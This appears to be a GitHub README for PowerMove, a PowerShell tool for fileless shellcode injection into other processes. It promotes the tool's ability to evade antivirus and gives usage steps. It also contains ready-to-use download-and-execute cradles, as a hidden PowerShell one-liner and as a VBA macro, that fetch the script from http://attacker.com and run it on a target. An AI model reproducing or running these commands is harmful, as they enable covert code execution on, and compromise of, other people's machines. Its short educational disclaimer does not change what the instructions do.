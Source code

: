 ![alt text](https://github.com/10N351R/PowerMove/blob/main/Images/Logo_video2.gif)
# PowerMove.ps1
Author: 10N351R


PowerMove is a fileless process injector written in PowerShell for injecting shellcode and migrating your shell to new processes. PowerMove uses common WINAPIs such as `OpenProcess`, `VirtualAllocEx`, `WriteProcessMemory`, and `CreateRemoteThread` to perform simple process injections. This combination of WINAPIs are often detected by anti-virus solutions when stored on disk but will bypass these protections when executed exclusively in memory.

Tested on PowerShell version: `5.1.19041.4522`

## Instructions
To use PowerMove in an existing PowerShell shell
1. Copy the contents of PowerMove.ps1 into a text editor
2. Edit the `$targetPid` variable with the PID of the target process to inject into
3. Edit the `$shellcode` variable with the payload you wish to inject
4. Copy the contents from the beginning `###` to the end `###` to your clipboard
5. Paste the contents into your existing PowerShell shell and press `Enter`
6. Enjoy the benifits fileless process injection

## Output
![alt text](https://github.com/10N351R/PowerMove/blob/main/Images/PowerMove_output.png)

# PowerMove_dynamic.ps1
`PowerMove_dynamic.ps1` was created to add dynamic PID resolution to enable remote execution via COM objects without embedding.

Tested on PowerShell version: `5.1.26100.4202`

## Instructions
`PowerMove_dynamic.ps1` can be executed in a Visual Basic for Applications (VBA) script, or directly from PowerShell.
1. Copy the contents of `PowerMove_dynamic.ps1` into a text editor
2. Edit the `$targetProcName` variable with the name of the process you want to target (eg. `notepad`,`explorer`,`svchost`)
3. Edit the `$shellcode` variable with the payload you wish to inject
4. Host `PowerMove_dynamic.ps1` on a server reachable by the target
5. Execute on the target

### Using Powershell
```powershell
powershell.exe -nop -w hidden -Command ""$h=New-Object -ComObject 'Msxml2.XMLHTTP';$h.open('GET','http://attacker.com/PowerMove_dynamic.ps1',$false);$h.send();IEX $h.responseText""
```

### Using VBA
```vba
Sub TEST()
    Dim ps As String
    ps = "powershell.exe -nop -w hidden -Command ""$h=New-Object -ComObject 'Msxml2.XMLHTTP';$h.open('GET','http://attacker.com/PowerMove_dynamic.ps1',$false);$h.send();IEX $h.responseText"""
    Shell ps, vbHide
End Sub
```

## Disclaimer
**Ethical Use:** PowerMove is provided for educational and lawful purposes only. The author is not responsible for any misuse or damaged caused by this tool. By using this tool, you agree to use it ethically and comply with all applicable laws and regulations. Unauthorized use of this tool is strictly prohibited and may result in severe legal consequences.

**Use Of Artificial Intelligence:** This tool was partially developed with the assistance of Artificial Intelligence (AI), and contains portions of code generated using OpenAI's ChatGPT, an AI language model.
